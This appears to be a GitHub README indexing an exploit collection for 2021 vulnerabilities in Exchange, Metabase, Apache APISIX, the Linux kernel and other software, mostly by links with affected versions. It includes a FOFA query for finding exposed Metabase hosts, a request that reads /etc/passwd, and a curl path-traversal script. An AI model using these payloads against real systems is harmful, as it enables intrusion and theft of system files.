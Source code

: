 ![[object Object]](https://socialify.git.ci/0x0021h/expbox/image?description=1&name=1&stargazers=1&theme=Light)

### Introduction
expbox is an exploit code collection repository


### List
[CVE-2021-41349 Exchange XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021-41349-poc.py)
```
<= Exchange 2013 update 23
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```
[CVE-2021–3945 Django-helpdesk stored XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021%E2%80%933945-poc.txt)
```
<= 0.3.0
```

[CVE-2021-37580 Apache ShenYu 2.3.0/2.4.0 authentication bypass](https://github.com/0x0021h/expbox/blob/main/cve-2021-37580-poc.py)
```
Ref: https://github.com/fengwenhua/CVE-2021-37580
```


[Hadoop Yarn RPC RCE](https://github.com/0x0021h/expbox/blob/main/Hadoop%20Yarn%20RPC%20RCE.md)
```
Ref: https://github.com/cckuailong/YarnRpcRCE
```

[CVE-2021-41277 MetaBase Arbitrary File Read](https://github.com/0x0021h/expbox/blob/main/CVE-2021-41277.yaml)
```
MetaBase < 0.40.5
1.0.0 <= MetaBase < 1.40.5

FOFA:

app="Metabase"

PoC:

GET /api/geojson?url=file:/etc/passwd HTTP/1.1
```

[CVE-2021-42321 Exchange Post-Auth RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-42321.py)
```
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```

[Windows 0day](https://github.com/0x0021h/expbox/blob/main/InstallerFileTakeOver.exe)
![image](https://user-images.githubusercontent.com/92664048/142796024-a46e8a46-90d1-42ed-8cf2-42127fb65da3.png)
```
Ref:https://github.com/klinix5/InstallerFileTakeOver
```

CVE-2021-43557 Apache APISIX: Path traversal in request_uri variable
```
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

[CVE-2021-43267 Linux Kernel TIPC RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-43267.c)
```
5.10-rc1 < Linux kernel < 5.15
```

Reference: https://haxx.in/posts/pwning-tipc/

[Nginx 0.7.0 to 1.17.9 Host injection](https://github.com/0x0021h/expbox/blob/main/nginx%20%200.7.0%20to%201.17.9%20Host%20injection.md)
```
Ref: https://twitter.com/infosec_90/status/1464337963240861702
```

### Note

All content comes from the Internet, if there is a copyright problem, please contact me to delete.
